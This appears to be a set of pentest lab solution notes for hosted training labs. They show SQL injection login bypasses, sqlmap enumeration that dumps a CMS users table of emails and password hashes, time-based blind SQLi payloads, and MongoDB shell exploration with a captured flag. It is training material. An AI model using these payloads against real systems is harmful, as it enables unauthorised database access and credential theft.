/index                (Status: 200) [Size: 9099]
/index_files          (Status: 301) [Size: 424] [--> http://cu8qe5hp2w70duvwld448oool.eu-central-6.attackdefensecloudlabs.com/index_files/]
/info.php             (Status: 200) [Size: 0]
/info                 (Status: 200) [Size: 73]
/lock                 (Status: 200) [Size: 1405]
/login                (Status: 302) [Size: 9463] [--> errorlogin.php]📌
/new                  (Status: 302) [Size: 12233] [--> index.php]
/plus                 (Status: 200) [Size: 74]
/power                (Status: 200) [Size: 4325]
/registro             (Status: 200) [Size: 13482]
/responder            (Status: 200) [Size: 2708]
/server-status        (Status: 403) [Size: 346]
/staff                (Status: 200) [Size: 2722]
/user                 (Status: 200) [Size: 2636]
/ver                  (Status: 302) [Size: 14183] [--> index.php]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```



`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /admin/staff.php📌 HTTP/2
Host: cu8qe5hp2w70duvwld448oool.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=toer16kmusdfk6ijfaf0nha4n1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Origin: https://cu8qe5hp2w70duvwld448oool.eu-central-6.attackdefensecloudlabs.com
Referer: https://cu8qe5hp2w70duvwld448oool.eu-central-6.attackdefensecloudlabs.com/admin/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

user=TEST&pass=TEST123&Submit22=+Login+📌
```
`HTTP Request`:
```http
POST /admin/staff.php📌 HTTP/2
Host: cu8qe5hp2w70duvwld448oool.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=toer16kmusdfk6ijfaf0nha4n1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Origin: https://cu8qe5hp2w70duvwld448oool.eu-central-6.attackdefensecloudlabs.com
Referer: https://cu8qe5hp2w70duvwld448oool.eu-central-6.attackdefensecloudlabs.com/admin/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

user=' OR 1=1#&pass=TEST123&Submit22=+Login+📌
```
`HTTP Response`:
```http
HTTP/2 200 OK📌
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Content-Type: text/html
Date: Tue, 10 Dec 2024 22:28:55 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
X-Powered-By: PHP/5.3.10-1ubuntu3.26
Content-Length: 12560

[...]
```



### Exploiting Boolean-Based SQLi Vulnerabilities

#### Lab Environment

**Victor CMS**

The attacker might not have any user-level access to the web application. However, this does not mean that the application cannot be compromised remotely. SQL Injection vulnerabilities could be triggered even by unauthenticated users.

In the exercise below, <u>the attacker is unauthenticated to the web application and needs to find an SQL Injection attack on it</u>.

<u>A version of Victor CMS is vulnerable to an SQL injection attack</u>.

**Objective**: Your task is to find and exploit this vulnerability.

#### Lab Solution



`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /post.php?post=1111 OR 1=1--📌 HTTP/2
Host: vmdbzf0sxoi7jc9yboehw3vt6.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=j0fevhs6826gn9bfa8chjfvci2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```
`HTTP Response`:
```http
HTTP/2 400 Bad Request📌
Content-Type: text/html; charset=iso-8859-1
Date: Tue, 10 Dec 2024 22:37:11 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 301

[...]
```
❌

`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /post.php?post=1111+OR+1=1--📌 HTTP/2
Host: vmdbzf0sxoi7jc9yboehw3vt6.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=j0fevhs6826gn9bfa8chjfvci2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```
`HTTP Response`:
```http
HTTP/2 200 OK📌
Cache-Control: no-store, no-cache, must-revalidate
Content-Type: text/html; charset=UTF-8
Date: Tue, 10 Dec 2024 22:36:12 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 15463

[...]
```






`vim ./request.txt`:
```http
GET /post.php?post=1 HTTP/2
Host: vmdbzf0sxoi7jc9yboehw3vt6.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=j0fevhs6826gn9bfa8chjfvci2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

`sqlmap -r ./request.txt -p 'post'`:
```
       ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.11#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:44:01 /2024-12-10/

[17:44:01] [INFO] parsing HTTP request from './request.txt'
[17:44:02] [INFO] testing connection to the target URL
got a 302 redirect to 'https://vmdbzf0sxoi7jc9yboehw3vt6.eu-central-6.attackdefensecloudlabs.com/post.php?post=1'. Do you want to follow? [Y/n] Y
[17:44:10] [INFO] checking if the target is protected by some kind of WAF/IPS
[17:44:10] [INFO] testing if the target URL content is stable
[17:44:11] [WARNING] heuristic (basic) test shows that GET parameter 'post' might not be injectable
[17:44:11] [INFO] testing for SQL injection on GET parameter 'post'
[17:44:11] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[17:44:13] [INFO] GET parameter 'post' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[17:44:20] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y

[...]

T parameter 'post' is vulnerable.📌 Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 77 HTTP(s) requests:
---
Parameter: post (GET)📌
    Type: boolean-based blind📌
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: post=1 AND 8571=8571📌

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: post=1 AND (SELECT 5966 FROM (SELECT(SLEEP(5)))VeRq)

    Type: UNION query
    Title: Generic UNION query (NULL) - 10 columns
    Payload: post=1 UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71767a7171,0x5a6a4c756e53455042676f435242625448484e496d555658614f427852756467486e62575855427a,0x71716a7671),NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[17:45:34] [INFO] the back-end DBMS is MySQL📌
web server operating system: Linux Ubuntu 16.04 or 16.10 (yakkety or xenial)📌
web application technology: Apache 2.4.18📌
back-end DBMS: MySQL >= 5.0.12📌
[17:45:35] [INFO] fetched data logged to text files under '/home/nabla/.local/share/sqlmap/output/vmdbzf0sxoi7jc9yboehw3vt6.eu-central-6.attackdefensecloudlabs.com'

[*] ending @ 17:45:35 /2024-12-10/
```

`sqlmap -r ./request.txt -p 'post' -D 'victor' --tables`:
```
[...]

[17:46:43] [INFO] fetching tables for database: 'victor'📌
Database: victor
[4 tables]
+------------+
| categories |
| comments   |
| posts      |
| users      |📌
+------------+

[17:46:44] [INFO] fetched data logged to text files under '/home/nabla/.local/share/sqlmap/output/vmdbzf0sxoi7jc9yboehw3vt6.eu-central-6.attackdefensecloudlabs.com'

[*] ending @ 17:46:44 /2024-12-10/
```

`sqlmap -r ./request.txt -p 'post' -D 'victor' -T 'users' --columns`:
```
[...]

[17:47:25] [INFO] fetching columns for table 'users' in database 'victor'
Database: victor
Table: users📌
[9 columns]📌
+----------------+--------------+
| Column         | Type         |
+----------------+--------------+
| randsalt       | varchar(255) |
| user_email     | varchar(255) |
| user_firstname | varchar(255) |
| user_id        | int(3)       |
| user_image     | text         |
| user_lastname  | varchar(255) |
| user_name      | varchar(255) |
| user_password  | varchar(255) |
| user_role      | varchar(255) |
+----------------+--------------+

[17:47:26] [INFO] fetched data logged to text files under '/home/nabla/.local/share/sqlmap/output/vmdbzf0sxoi7jc9yboehw3vt6.eu-central-6.attackdefensecloudlabs.com'

[*] ending @ 17:47:26 /2024-12-10/
```

`sqlmap -r ./request.txt -p 'post' -D 'victor' -T 'users' --columns --dump`:
```
[...]

[17:48:12] [INFO] fetching entries for table 'users' in database 'victor'
Database: victor
Table: users📌
[5 entries]📌
+---------+----------+-----------+-----------+------------------------+-------------------------+---------------+--------------------------------------------------------------+----------------+
| user_id | randsalt | user_name | user_role | user_email             | user_image              | user_lastname | user_password                                                | user_firstname |
+---------+----------+-----------+-----------+------------------------+-------------------------+---------------+--------------------------------------------------------------+----------------+
| 2       | dgas     | Chuks     | User      | chuks@gmail.com        | 2347033459561.jpg       | Alagwu        | <blank>                                                      | Johnpaul       |
| 3       | dgas     | Demo      | User      | demo@gmail.com         | Image                   | Surname_Demo  | $2y$10$6kFvYVJQEndRCVZbSCx6sOcp5E3oCnCK03oIY/0ZnJWjsjub2Z5g6 | Demo           |
| 6       | dgas     | Henry     | Admin     | henry@gmail.com        | Image                   | Henry         | $2y$10$VDH.FEM7qs5Yv29nnXuUqeoCWtYeVYJ6xKaGOZvoPzHBfCWtUXXr2 | DemoLoaded     |
| 7       | dgas     | Victor    | Admin     | victoralagwu@gmail.com | IMG_20160129_145808.jpg | Alagwu        | $2y$10$DCJGfBNgpoWml9.9/MYkaeSVUKf8t2tSUo5Po.bDfR3xcjx5pJwoa | Victor         |
| 8       | dgas     | admin     | User      | admin@admin.xyz        | Image                   | admin         | $2y$10$gOIjK85KGruyhDCRdWTUeeU6FrBmNLcec/evSrBfdtwWolfjO1EvS | admin          |
+---------+----------+-----------+-----------+------------------------+-------------------------+---------------+--------------------------------------------------------------+----------------+

[17:48:13] [INFO] table 'victor.users' dumped to CSV file '/home/nabla/.local/share/sqlmap/output/vmdbzf0sxoi7jc9yboehw3vt6.eu-central-6.attackdefensecloudlabs.com/dump/victor/users.csv'
[17:48:13] [INFO] fetched data logged to text files under '/home/nabla/.local/share/sqlmap/output/vmdbzf0sxoi7jc9yboehw3vt6.eu-central-6.attackdefensecloudlabs.com'

[*] ending @ 17:48:13 /2024-12-10/
```

### Exploiting Time-Based SQLi Vulnerabilities

#### Lab Environment

**CiMe Citas Medicas**

The attacker might not have any user level access to the web application. However, this does not mean that the application cannot be compromised remotely. SQL Injection vulnerabilities could be triggered even by unauthenticated users.

In the exercise below, <u>the attacker is unauthenticated to the web application and needs to find an SQL Injection attack on it</u>.

<u>A version of CiMe Citas Medicas is vulnerable to an SQL injection attack</u>.

**Objective**: Your task is to find and exploit this vulnerability.

#### Lab Solution



`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /citasmedicas.php?pag=citasmedindex HTTP/1.1
Host: 7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=2pckgln0g9j9nfk9v8r1qi1t25
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com
Referer: https://7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com/citasmedicas.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

username=' OR 1=1#&password=TEST123📌
```
`HTTP Response`:
```http
HTTP/2 200 OK
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Content-Type: text/html
Date: Tue, 10 Dec 2024 22:00:25 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
X-Powered-By: PHP/5.3.10-1ubuntu3.26
Content-Length: 6205
consulta: SELECT `password` as password  
		FROM `usuarios` WHERE `login`='' OR 1=1#'<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">

[...]

<!-- inicio del contenido -->

          Usuario no autenticado<br />
Para acceder al demo:<br />
usuario: admin<br />
password admin
<!-- <h1>Administraci&oacute;n de cuentas </h1> -->

[...]
```
❌

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /citasmedicas.php?pag=citasmedindex HTTP/1.1
Host: 7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=2pckgln0g9j9nfk9v8r1qi1t25
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com
Referer: https://7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com/citasmedicas.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

username=' OR SLEEP(5)#&password=TEST123📌
```
`HTTP Response`:
```http
[...]

5,201 millis
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /citasmedicas.php?pag=citasmedindex HTTP/1.1
Host: 7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=2pckgln0g9j9nfk9v8r1qi1t25
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com
Referer: https://7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com/citasmedicas.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

username=' OR BENCHMARK(10000000,MD5('hello'))#&password=TEST123📌
```
`HTTP Response`:
```http
[...]

4,013 millis
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /citasmedicas.php?pag=citasmedindex HTTP/1.1
Host: 7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=2pckgln0g9j9nfk9v8r1qi1t25
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com
Referer: https://7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com/citasmedicas.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

username=' OR IF(MID(@@version,1,1)='5',SLEEP(1),1)='2'#&password=TEST123📌
```
`HTTP Response`:
```http
[...]

1,290 millis
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /citasmedicas.php?pag=citasmedindex HTTP/1.1
Host: 7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=2pckgln0g9j9nfk9v8r1qi1t25
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com
Referer: https://7w5uc4bc9n0w10f7dszfqmmtp.eu-central-6.attackdefensecloudlabs.com/citasmedicas.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

username=' OR IF(MID(@@version,1,1)='0',SLEEP(1),1)='2'#&password=TEST123📌
```
`HTTP Response`:
```http
[...]

135 millis
```
❌

---

## NoSQL Injection

### NoSQL Fundamentals

#### Lab Environment

**MongoDB Basics**

[MongoDB](https://www.mongodb.com/) is a document-oriented NoSQL database system. A mongodb server is installed in the lab environment (`localhost`). The objective of this challenge is to interact with the mongodb server.

#### Lab Solution

`mongo`:
```
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27017
MongoDB server version: 3.6.3
Welcome to the MongoDB shell.
For interactive help, type "help".
For more comprehensive documentation, see
        http://docs.mongodb.org/
Questions? Try the support group
        http://groups.google.com/group/mongodb-user
Server has startup warnings:
2024-12-10T21:15:22.667+0000 I CONTROL  [initandlisten]
2024-12-10T21:15:22.667+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
2024-12-10T21:15:22.667+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
2024-12-10T21:15:22.667+0000 I CONTROL  [initandlisten]
> help
        db.help()                    help on db methods
        db.mycoll.help()             help on collection methods
        sh.help()                    sharding helpers
        rs.help()                    replica set helpers
        help admin                   administrative help
        help connect                 connecting to a db help
        help keys                    key shortcuts
        help misc                    misc things to know
        help mr                      mapreduce

        show dbs                     show database names
        show collections             show collections in current database
        show users                   show users in current database
        show profile                 show most recent system.profile entries with time >= 1ms
        show logs                    show the accessible logger names
        show log [name]              prints out the last segment of log in memory, 'global' is default
        use <db_name>                set current database
        db.foo.find()                list objects in collection foo
        db.foo.find( { a : 1 } )     list objects in foo where a == 1
        it                           result of the last line evaluated; use to further iterate
        DBQuery.shellBatchSize = x   set default number of items to display on shell
        exit                         quit the mongo shell
```
```
> show dbs
admin  0.000GB
city   0.002GB
flag   0.000GB
local  0.000GB
stats  0.000GB
users  0.000GB
```
```
> use flag
switched to db flag

> show collections
flag

> db.flag.find()
{ "_id" : ObjectId("6758af6e85940aa106c9770e"), "flag" : "fl4g_f0r_m0ng0_db" }🚩
```
```
> use users
switched to db users

> show collections
banned
current
past

> db.current.find({"user":"test"})
{ "_id" : ObjectId("6758af6e85940aa106c975ee"), "user" : "Karleigh", "join_date" : "31-12-1969", "email" : "ac.nulla@sitamet.org", "phone" : "(518) 780-3190" }
{ "_id" : ObjectId("6758af6e85940aa106c975ef"), "user" : "Hunter", "join_date" : "31-12-1969", "email" : "ante.bibendum@orcilacus.org", "phone" : "(781) 698-7091" }
{ "_id" : ObjectId("6758af6e85940aa106c975f0"), "user" : "Finn", "join_date" : "31-12-1969", "email" : "dis@cursusNunc.ca", "phone" : "(407) 128-4634" }
{ "_id" : ObjectId("6758af6e85940aa106c975f1"), "user" : "Chandler", "join_date" : "31-12-1969", "email" : "lorem.vehicula@maurisaliquameu.org", "phone" : "(217) 574-4549" }
{ "_id" : ObjectId("6758af6e85940aa106c975f2"), "user" : "Quamar", "join_date" : "31-12-1969", "email" : "tempor@semperegestasurna.ca", "phone" : "(213) 341-0303" }
{ "_id" : ObjectId("6758af6e85940aa106c975f3"), "user" : "Zeus", "join_date" : "31-12-1969", "email" : "arcu.et.pede@sitametmetus.co.uk", "phone" : "(743) 468-8303" }

[...]

> db.current.find({"user":"TEST"})

> db.current.find({"user":"Heather"})
{ "_id" : ObjectId("6758af6e85940aa106c97614"), "user" : "Heather", "join_date" : "31-12-1969", "email" : "mauris.sapien@eueratsemper.ca", "phone" : "(572) 146-5308" }
```
```
> db.past.find()
{ "_id" : ObjectId("6758af6e85940aa106c97656"), "user" : "Nero", "join_date" : "31-12-1969", "email" : "consequat@Nullamscelerisqueneque.edu", "phone" : "(997) 182-1177" }
{ "_id" : ObjectId("6758af6e85940aa106c97657"), "user" : "Nicole", "join_date" : "31-12-1969", "email" : "imperdiet@maurisrhoncusid.com", "phone" : "(181) 563-2335" }
{ "_id" : ObjectId("6758af6e85940aa106c97658"), "user" : "Maggy", "join_date" : "31-12-1969", "email" : "ornare.placerat@duiFuscealiquam.ca", "phone" : "(558) 605-2817" }
{ "_id" : ObjectId("6758af6e85940aa106c97659"), "user" : "Ezekiel", "join_date" : "31-12-1969", "email" : "egestas.Duis.ac@velvenenatisvel.org", "phone" : "(791) 720-1645" }

[...]
```
```
> db.past.find().count()
179

> db.banned.find().count()
91
```
```
> use city
switched to db city

> show collections
city

> db.city.find().count()
29353

> db.city.find({"city":"SPRINGFIELD"}).count()
41

> db.city.find({"pop":{$gt:50000}}).count()
449

> db.city.find({"pop":{$gt:50000}})
{ "_id" : "01201", "city" : "PITTSFIELD", "loc" : [ -73.247088, 42.453086 ], "pop" : 50655, "state" : "MA" }
{ "_id" : "01701", "city" : "FRAMINGHAM", "loc" : [ -71.425486, 42.300665 ], "pop" : 65046, "state" : "MA" }
{ "_id" : "02148", "city" : "MALDEN", "loc" : [ -71.060507, 42.42911 ], "pop" : 54114, "state" : "MA" }
{ "_id" : "02146", "city" : "BROOKLINE", "loc" : [ -71.128917, 42.339158 ], "pop" : 56614, "state" : "MA" }

[...]

> db.city.find({$and:[{"pop":{$gt:50000}},{"city":"PITTSFIELD"}]}).count()
1

> db.city.find({"city":{$regex:"^H.*"}})
{ "_id" : "01040", "city" : "HOLYOKE", "loc" : [ -72.626193, 42.202007 ], "pop" : 43704, "state" : "MA" }
{ "_id" : "01036", "city" : "HAMPDEN", "loc" : [ -72.431823, 42.064756 ], "pop" : 4709, "state" : "MA" }
{ "_id" : "01035", "city" : "HADLEY", "loc" : [ -72.571499, 42.36062 ], "pop" : 4231, "state" : "MA" }

[...]

> db.city.aggregate({"$group":{"_id":null,avg:{$avg:"$pop"}}})
{ "_id" : null, "avg" : 8462.794262937348 }
```

### MongoDB NoSQL Injection

#### Lab Environment

**MongoDB NoSQL Injection**

[MongoDB](https://www.mongodb.com/) is a document-oriented NoSQL database system. The Webapp is vulnerable to injection attacks which might allow the attacker to dump all documents of the collection from the backend Mongodb server.

**Objective:** <u>Fetch the list of all users (or other relevant info about them) and retrieve the flag</u>.

This lab is inspired by two blog posts (i.e. [blog post 1](https://www.idontplaydarts.com/2010/07/mongodb-is-vulnerable-to-sql-injection-in-php-at-least/) and [blog post 2](http://blog.securelayer7.net/mongodb-security-injection-attacks-with-php/)).

#### Lab Solution







---
---

## Tools and Frameworks

- [sqlmap](https://github.com/sqlmapproject/sqlmap)
	Automatic SQL injection and database takeover tool.
	sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester, and a broad range of switches including database fingerprinting, over data fetching from the database, accessing the underlying file system, and executing commands on the operating system via out-of-band connections.

---
---

## Resources and References

- [SQL Injection Payload List](https://github.com/payloadbox/sql-injection-payload-list)
- [Payloads All The Things - SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- [SecLists - SQLi](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/SQLi)
- [The Schema Table](https://www.sqlite.org/schematab.html)

---
---
